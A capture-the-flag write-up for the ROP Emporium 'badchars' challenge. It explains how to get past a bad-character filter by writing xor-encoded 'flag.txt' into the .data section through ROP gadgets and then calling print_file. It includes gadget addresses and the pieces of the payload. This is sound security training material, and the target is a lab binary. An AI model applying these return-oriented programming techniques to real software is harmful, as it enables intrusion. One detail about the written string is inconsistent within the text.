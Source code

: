 # badchars
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 64-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x601028 >>> dataSect = 0x601028 + 0x8
...
```
print_file function plt address:
```
plt 
Breakpoint 1 at 0x400510 (print_file@plt)
Breakpoint 2 at 0x400500 (pwnme@plt)
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars
...
0x0000000000400634 : mov qword ptr [r13], r12 (gadget2); ret # write string to buffer
...
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 (gadget1); ret # pop value and address to registers
...
0x00000000004006a0 : pop r14 ; pop r15 (gadget5); ret # pop xor value and address to registers
...
0x00000000004006a3 : pop rdi (gadget3); ret # pop string address to argument register
...
0x0000000000400628 : xor byte ptr [r15], r14b (gadget4); ret # do byte xor operation to ptr [byte] address
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
# '`' ^ 1 = 'a'
# 'f' ^ 1 = 'g'
# '/' ^ 1 = '.'
# 'y' ^ 1 = 'x'
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Now, we can build our payload:

Firstly, write the xor string 'gm`f/uyu' to data section, then do byte xor operation to each byte to string, finally, pop the string address to rdi, and call print_file.

Same as before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop string 'fl`f/tyt' and data section address to r12 r13, and xor byte and data section byte address into r14 and r15.
```
p64(gadget1) + b'fl`f/tyt' + p64(dataSect) + p64(0x1) + p64(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p64(gadget2) + p64(gadget4)
```
Do xor operation to rest string byte 'g', '.', 'x'.
```
# 'f' ^ 1 = 'g'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+3) + p64(gadget4)
# '/' ^ 1 = '.'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+4) + p64(gadget4)
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Pop data section address to rdi.
```
p64(gadget3) + p64(dataSect)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
